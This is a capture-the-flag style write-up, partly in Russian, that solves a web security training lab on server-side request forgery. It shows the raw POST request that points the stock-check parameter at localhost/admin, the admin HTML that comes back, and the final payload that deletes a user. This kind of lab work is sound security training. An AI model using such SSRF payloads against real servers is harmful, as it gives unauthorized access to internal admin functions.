 # Basic SSRF against the local server
APPRENTICE

This lab has a stock check feature which fetches data from an internal system.

To solve the lab, change the stock check URL to access the admin interface at http://localhost/admin and delete the user carlos.

## Решение
При проверке наличия товара отправляется запрос `stockApi=http%3A%2F%2Fstock.weliketoshop.net%3A8080%2Fproduct%2Fstock%2Fcheck%3FproductId%3D1%26storeId%3D1`. Заменю значение параметра stockApi на `http://localhost/admin`:
```
POST /product/stock HTTP/2
Host: 0ac1004a0304208980abbcc7008c0019.web-security-academy.net
Cookie: session=UthRCAtTyRcX27ePfuP8HdoyL1udYfug
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ac1004a0304208980abbcc7008c0019.web-security-academy.net/product?productId=1
Content-Type: application/x-www-form-urlencoded
Content-Length: 31
Origin: https://0ac1004a0304208980abbcc7008c0019.web-security-academy.net
Sec-Fetch-Dest: empty
Sec-Fetch-Mode: cors
Sec-Fetch-Site: same-origin
Te: trailers

stockApi=http://localhost/admin
```
```
<div theme="">
    <section class="maincontainer">
        <div class="container is-page">
            <header class="navigation-header">
                <section class="top-links">
                    <a href=/>Home</a><p>|</p>
                    <a href="/admin">Admin panel</a><p>|</p>
                    <a href="/my-account">My account</a><p>|</p>
                </section>
            </header>
            <header class="notification-header">
            </header>
            <section>
                <h1>Users</h1>
                <div>
                    <span>wiener - </span>
                    <a href="/admin/delete?username=wiener">Delete</a>
                </div>
                <div>
                    <span>carlos - </span>
                    <a href="/admin/delete?username=carlos">Delete</a>
                </div>
            </section>
            <br>
            <hr>
        </div>
    </section>
    <div class="footer-wrapper">
    </div>
</div>
```
В html, пришедшем с ответом, есть ссылка на удаление пользователя carlos. Отправлю этот URL с запросом:

`stockApi=http://localhost/admin/delete?username=carlos`

Задание выполнено.
